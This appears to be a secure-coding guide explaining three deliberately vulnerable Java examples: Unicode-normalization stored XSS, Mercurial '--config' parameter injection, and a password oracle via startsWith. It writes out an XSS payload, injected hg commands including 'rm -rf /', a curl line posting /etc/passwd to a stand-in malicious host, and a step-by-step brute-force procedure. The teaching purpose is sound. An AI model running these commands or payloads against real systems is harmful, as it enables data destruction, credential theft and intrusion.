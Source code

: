 # Contents

- [StoredXSS.java](#storedxssjava)
- [ParameterInjection.java](#parameterinjectionjava)
- [InformationDisclosure.java](#informationdisclosurejava)

&nbsp;


## [StoredXSS.java](../../examples/insecure/java/StoredXSS.java)
Path: `examples/insecure/java/StoredXSS.java`

### Explanation
The application is monolithic and uses server-side rendering.
It fetches user comments from the backend, as we can see on line 7.
On line 9, it appears that the backend is encoding certain characters: `<` becomes `&lt;`, and `>` becomes `&gt;`.

The issue arises on line 10. While the context provided by the backend seems safe, the encoded data is passed to the Normalizer class after encoding. Essentially, the already-encoded data gets decoded. This results in the unwanted behavior of decoding the characters that should have remained encoded.

The Normalizer class likely normalizes Unicode characters, as the backend normalizes smaller or larger characters. Given this, it's reasonable to assume that the normalizer could be normalizing Unicode characters as well.

As a result, it's highly likely that a Unicode-based XSS payload will work here. For example:  
```bash
{'comment':'\ufe64script\ufe65alert(document.domain);\ufe64/script\ufe65'}
```


&nbsp;


## [ParameterInjection.java](../../examples/insecure/java/ParameterInjection.java)
Path: `examples/insecure/java/ParameterInjection.java`

### Explanation

This Java example demonstrates a **Parameter Injection vulnerability** in a Mercurial (hg) integration. The code attempts to prevent command injection through blacklisting but fails to secure the `--config` parameter, allowing arbitrary command execution.

**Insecure Blacklist Approach (Lines 8-9):**
   - Only blocks basic command injection attempts using `$(` and `backticks`
   - Does not address parameter-based attacks

#### Blocked Command Injection Attempt
```bash
hg identify http://example.com/$(id)   # Prevented by blacklist
hg identify http://example.com/`id`    # Prevented by blacklist
```

**Unsanitized Command Execution:**
- Directly incorporates user input into system commands.
- Critical Parameter in Mercurial (hg): --config allows overriding commands.

#### Parameter Injection
```bash
hg identify --config=alias.identify=!id
```
- **Mechanism:**
  1. Overrides the `identify` command alias via `--config`
  2. `!id` executes system commands through Mercurial's alias functionality
  3. Full command execution chain:
     ```
     hg → config parser → shell execution
     ```

**Attackers can execute:**
  ```bash
hg identify --config=alias.identify='!rm -rf /'  # Destructive commands
hg identify --config=alias.identify='!curl -X POST -d @/etc/passwd http://malicious.site' # Data exfiltration
  ```


&nbsp;

## [InformationDisclosure.java](../../examples/insecure/java/InformationDisclosure.java)

Path: `examples/insecure/java/InformationDisclosure.java`

### Explanation

The `/register` endpoint compares new user passwords against existing ones character by character.  
At **line 20**, the application checks if the new password **starts with** any existing password:

### **Issue:**
  - The application stores passwords **in plaintext** instead of hashing them. This makes direct comparisons possible, leading to **password disclosure.**
  - The use of `startsWith()` allows an attacker to **brute-force** the stored passwords **character by character.**

#### **Guessing Password Characters**
The attacker submits incremental passwords via the registration form:

1. `password=a` → No error → No password starts with "a"
2. `password=b` → **403 Error** → At least one password starts with "b"
3. `password=ba` → No error → The password does **not** continue with "ba"
4. `password=bb` → **403 Error** → The password starts with "bb"

#### **Extracting the Entire Password**
Repeating this process for each character reveals the complete password:

```markdown
Stored Password: "secret123"
Attacker's Attempts:
1. "s" → 403 (Correct first character)
2. "se" → 403 (Correct first two characters)
3. "sec" → 403
...
7. "secret12" → 403
8. "secret123" → Registration successful (Full password recovered)
```

&nbsp;
